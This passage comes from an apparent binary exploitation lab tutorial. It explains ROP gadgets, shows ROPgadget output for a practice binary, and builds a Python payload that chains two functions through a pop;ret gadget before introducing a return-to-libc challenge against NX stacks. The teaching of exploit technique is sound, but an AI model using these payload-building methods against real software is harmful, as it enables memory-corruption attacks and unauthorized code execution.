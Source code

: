 #### Finding Gadgets - `ROPgadget`

The `pop; ret` instructions above are called a **gadget**, i.e. a small group of **consecutive** instructions that ends in `ret` and which can be used to alter the execution of a given program.
Since all binaries contain a `.text` section, which is made up of instructions, all binaries contain gadgets.
Lots of them.

The tool that we're going to use in order to find such gadgets is called `ROPgadget`.
It is already installed in the Kali VM and if you're working on another environment, you can install it by following the instructions in the tool's [GitHub repository](https://github.com/JonathanSalwan/ROPgadget).

In order to run `ROPgadget` from your terminal, you need to specify a binary file to it using the `--binary` parameter.
It is also recommended (if you know what gadgets you're looking for) to filter those you need using the `--only` parameter.
As a result, in order to obtain a `pop; ret` gadget, we need to run the following command:

```console
$ ROPgadget --binary vuln --only "pop|ret"
Gadgets information
============================================================
0x080485eb : pop ebp ; ret
0x080485e8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048331 : pop ebx ; ret
0x080485ea : pop edi ; pop ebp ; ret
0x080485e9 : pop esi ; pop edi ; pop ebp ; ret
0x0804831a : ret
0x0804819c : ret 0x3e41
0x0804844e : ret 0xeac1
```

Thus, the payload needed in order to call both `overwatch` and `warcraft` is the one showcased below, with `pop_ret_gadget_address` being set to `0x08048331` from the output above.

```python
payload = offset * b"A" + pack(overwatch_address) + pack(pop_ret_gadget_address)
	+ pack(0xdeadbeef) + pack(warcraft_address)
```

Notice this yet is another example of **code reuse** since we're reusing various chunks of instructions already present in our binary.

## Challenges

### 01. Tutorial - Bypass NX Stack with return-to-libc

Go to the [`01-tutorial-ret-to-libc/`](activities/01-tutorial-ret-to-libc/src/) folder.

In the previous sessions we used stack overflow vulnerabilities to inject new code into a running process (on its stack) and redirect execution to it.
This attack is easily defeated by making the stack, together with any other memory page that can be modified, non-executable.
This is achieved by setting the `NX` bit in the page table of the current process.
